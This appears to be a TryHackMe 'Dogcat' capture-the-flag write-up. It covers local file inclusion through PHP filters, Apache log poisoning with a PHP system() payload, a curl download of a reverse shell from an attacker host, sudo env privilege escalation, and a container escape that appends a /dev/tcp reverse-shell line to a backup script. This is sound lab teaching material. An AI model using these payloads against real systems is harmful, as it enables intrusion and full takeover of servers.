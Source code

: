[Home](../../index.md)

# TryHackMe: Dogcat

https://tryhackme.com/room/dogcat

The initial nmap scan reveals nothing unusual.  A web server and SSH:
```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ rustscan -a 10.10.113.229 -r 1-65535 -- -sV

...

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

A directory search reveals a directory for both dogs and cats.  Unfortunately we cannot access the directories directly, we get a 403.
```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ sudo feroxbuster -u http://10.10.113.229 -w /usr/share/wordlists/dirb/big.txt 

301        9l       28w      313c http://10.10.113.229/cats
301        9l       28w      313c http://10.10.113.229/dogs
403        9l       28w      278c http://10.10.113.229/server-status
```

The website itself is just a page with two buttons, to see a dog or a cat.  The buttons add a parameter to the URL.  There is no javascript, so this is probably utilizing some PHP code to load files from the /cats and /dogs directories.
```
<a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
```

Manually setting the parameter to something else results in the message "Sorry, only dogs or cats are allowed."

---
## Flag 1

Knowing PHP is involved, we re-run feroxbuster with the php extension and found matching files, when browsing directly to them they display a random cat or dog image.
```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ sudo feroxbuster -u http://10.10.113.229 -w /usr/share/wordlists/dirb/big.txt -x php
```

This also revealed a flag.php file.  Browsing directly shows us nothing. Trying the ?view=flag parameter still gets stopped by the PHP logic.

We can use PHP filters to get the code from flag.php encoded in base64.

`http://10.10.113.229/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag`

This reveals flag 1 when decoded.

---
## Flag 2

We can similarly get the index.php code with the same method.

`http://10.10.113.229/?view=php://filter/read=convert.base64-encode/resource=./dog/../index`

```
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

Reading through this code we can see two key items.

1. Our parameter needs to have the string 'dog' or 'cat' in it.
2. We can use the additional parameter 'ext' to control the extension (or lack thereof)

This can be confirmed by displaying /etc/passwd

`http://10.10.113.229/?view=./dog/../../../../etc/passwd&ext`

Since this server is running Apache with PHP and we can load other files from the server in our browser, it is likely that we can perform log poisoning and run our own PHP code.

Here we can verify we have access to the log:

`http://10.10.113.229/?view=./dog/../../../../var/log/apache2/access.log&ext`

Our PHP script we are injecting via headers and a curl command (had to escape the $, was getting a strange error):

```
curl -H "User-Agent: <?php system(\$_GET['cmd']);?>" http://10.10.113.229
```

Verify with this (and search for www-data)

`http://10.10.113.229/?view=./dog/../../../../var/log/apache2/access.log&ext&cmd=whoami`

Grabbed a php reverse shell from https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Changed the IP to attacker

Used python http server and our poisoned log to upload:

```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Browse or Curl:
`http://10.10.113.229/?view=./dog/../../../../var/log/apache2/access.log&ext&cmd=curl%20-o%20shell.php%20http://10.13.18.7:8000/php-reverse-shell.php`
```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```
Browse or Curl:
`http://10.10.113.229/shell.php`
```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.13.18.7] from (UNKNOWN) [10.10.113.229] 49918
Linux 7d96d51ea451 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 03:25:12 up  1:54,  0 users,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
browsing to /var/www reveals the 2nd flag

---
## Flag 3

Checking sudo permissions shows an easily exploitable binary https://gtfobins.github.io/gtfobins/env/#sudo
```
$ sudo -l
Matching Defaults entries for www-data on 7d96d51ea451:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 7d96d51ea451:
    (root) NOPASSWD: /usr/bin/env
```

This gets us root access, and Flag 3 is in /root


---
## Flag 4

The room mentioned breaking out of a container, so that's what we have to do to get the last flag.

There is a backup script in /opt/backups that is run on the parent box.  By altering this script we can get another reverse shell to the parent.

```
cd /opt/backups
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.13.18.7/4444 0>&1'" >> backup.sh
```

Catch it and get the flag

```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.13.18.7] from (UNKNOWN) [10.10.113.229] 43432
bash: cannot set terminal process group (8055): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@dogcat:~# pwd
pwd
/root
root@dogcat:~# ls
ls
container
flag4.txt
```

